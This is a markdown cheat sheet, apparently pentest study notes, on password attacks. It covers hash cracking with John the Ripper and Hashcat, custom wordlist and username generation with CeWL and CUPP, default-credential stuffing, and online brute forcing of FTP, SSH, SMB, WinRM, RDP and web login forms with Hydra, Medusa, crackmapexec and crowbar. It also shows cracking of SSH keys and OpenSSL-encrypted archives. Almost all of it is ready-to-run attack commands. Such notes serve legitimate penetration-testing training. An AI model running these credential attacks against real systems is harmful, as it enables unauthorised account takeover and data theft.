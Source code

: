 ```yaml
---
layout: default
---
```


# Passwords Attack
## Hash Identifier
```bash
$ hash-identifier
```

## Crack Password
### John The Ripper
```bash
$ john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt`
```

### Hashcat
```bash
$ hashcat -m 3200 -a 0 -o found.txt passwd.txt /usr/share/wordlists/rockyou.txt

# 1000 NTLM hashes
# 5600 NTLMv2 hashes
# 13100 Kerberos TGS
```

## Password Mutations
`/usr/share/hashcat/rules/`
```bash
$ hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

* * *

# Custom Wordlists
## CeWL
We can now use another tool called CeWL to scan potential words from the company's website and save them in a separate list. We can then combine this list with the desired rules and create a customized password list that has a higher probability of guessing a correct password. We specify some parameters, like the depth to spider (-d), the minimum length of the word (-m), the storage of the found words in lowercase (--lowercase), as well as the file where we want to store the results (-w).


```bash
$ cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```
   - `-d minimum word length`
   - `-m maximum word length`
   - `--lowercase all words are lowercase`
   - `-w output file`

## CUPP
```bash
$ cupp -i

sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```

## Custom list of Usernames
```bash
$ ./username-anarchy -i /home/ltnbob/names.txt 
$ ./username-anarchy Bill Gates > bill.txt
```

## Default Passwords
**Credential Stuffing - Hydra**
There are various databases that keep a running list of known default credentials. One of them is the (DefaultCreds-Cheat-Sheet)[https://github.com/ihebski/DefaultCreds-cheat-sheet]. Here is a small excerpt from the entire table of this cheat sheet:

This is a simplified variant of brute-forcing because only composite usernames and the associated passwords are used.
```bash
$ hydra -C <user_pass.list> <protocol>://<IP>
```

* * *

# Services
`Note: Although we may find services vulnerable to brute force, most applications today prevent these types of attacks. A more effective method is Password Spraying.`

## Hydra 
```bash
$ hydra -L user.list -P password.list <protocol>://<IP> -t 48 -p <port>

- L user list 
- l single username 
- P pass list
- p single password
- t <num> threads
- p <port>
```

## FTP
```bash
$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 

$ hydra -L user.list -P password.list ftp://<IP> -s 21
```

## SSH
```bash
$ hydra -L user.list -P password.list ssh://<IP>
```

## SMB
```bash
$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

$ hydra -L user.list -P password.list smb://10.129.42.197

$ msf6 > use auxiliary/scanner/smb/smb_login
```

## WinRM
```bash
$ crackmapexec winrm <IP> -u user.list -p password.list
```

## RDP
```bash
$ crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
$ hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
$ hydra -L user.list -P password.list rdp://10.129.42.197`
```

* * *

# Login Attacks
## Default Passwords
`/usr/share/wordlists/seclists/Passwords/Default-Credentials`

```bash
$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <IP> -s <PORT> http-get /
```

## Username/Password Attack
```bash
$ hydra -L /usr/share/wordlists/secLists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -u -f <IP> -s <PORT> http-get /
```

## Username Brute Force
```bash
$ hydra -L /usr/share/wordlists/secLists/Usernames/Names/names.txt -p <PASSWORD> -u -f <IP> -s <PORT> http-get /
```

## Brute Forcing Forms
two types of http modules interesting for us:

- http[s]-{head|get|post}
- http[s]-post-form
The 1st module serves for basic HTTP authentication, while the 2nd module is used for login forms, like .php or .aspx and others.

To decide which module we need, we have to determine whether the web application uses GET or a POST form. We can test it by trying to log in and pay attention to the URL. If we recognize that any of our input was pasted into the URL, the web application uses a GET form. Otherwise, it uses a POST form.


```bash
$ hydra -l <admin> -P /usr/share/wordlists/rockyou.txt -f <IP> -s <PORT> http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

- login.php: url
- username=^USER^&password=^PASS^: parameters to POST (Capture on Burp Suite)
- Third: form name (Check source code)


# Protected Files
## Cracking with John
```bash
$ locate *2john*
```

```bash
$ ssh2john.py SSH.private > ssh.hash
```

## Cracking OpenSSL Encrypted Archives
```bash 
$ file GZIP.gzip 

GZIP.gzip: openssl enc'd data with salted password
```

### Using a for-loop to Display Extracted Contents
```bash
$ for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done
```
